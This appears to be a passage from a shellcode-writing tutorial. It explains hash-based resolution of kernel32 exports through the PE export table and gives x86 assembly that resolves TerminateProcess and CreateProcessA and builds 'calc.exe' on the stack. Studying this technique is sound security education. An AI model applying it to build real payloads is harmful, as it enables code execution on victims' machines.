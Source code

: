 When a hash match is found, we:

1. Get the function's ordinal from the ordinals table
2. Use the ordinal to index into the address table
3. Extract the function's relative virtual address (RVA)
4. Convert the RVA to an actual virtual address by adding the module base
5. Store the result where it will end up in EAX after POPAD

This translation between name, ordinal, and address follows the PE export table structure, allowing us to resolve any exported function.

### Resolving Required Function Addresses

With our function resolution mechanism in place, we can find the addresses of the specific functions we need:

```assembly
resolve_symbols_kernel32:
push  0x78b5b983                # TerminateProcess hash
call dword ptr [ebp+0x04]       # Call find_function
mov   [ebp+0x10], eax           # Store TerminateProcess address
push  0x16b3fe72                # CreateProcessA hash
call dword ptr [ebp+0x04]       # Call find_function
mov   [ebp+0x18], eax           # Store CreateProcessA address
```

Here we resolve two essential functions:

1. **TerminateProcess** (hash: 0x78b5b983) - Used for clean shellcode exit
2. **CreateProcessA** (hash: 0x16b3fe72) - Used to launch the calculator

These specific hash values were pre-calculated using the same algorithm implemented in our shellcode. The resolved addresses are stored at fixed offsets from our EBP register for later use.

## Crafting Dynamic Data Structures

### Creating the Program Name on the Stack

To launch calculator, we need its command line. We create this string directly on the stack:

```assembly
launch_calc:
xor   eax, eax                  # Clear EAX register
push  eax                       # Push null terminator (0x00000000)
push  0x6578652e                # Push ".exe" (reversed)
push  0x636c6163                # Push "calc" (reversed)
mov   ebx, esp                  # EBX points to "calc.exe"
```

This technique builds a null-terminated string by pushing its components backwards onto the stack. Due to x86's little-endian byte ordering, we must reverse the string segments:

- "calc" becomes 0x636c6163 (hex representation of ASCII values in reverse)
- ".exe" becomes 0x6578652e

After pushing these values and a null terminator, ESP points to the start of our "calc.exe" string, which we save in EBX.
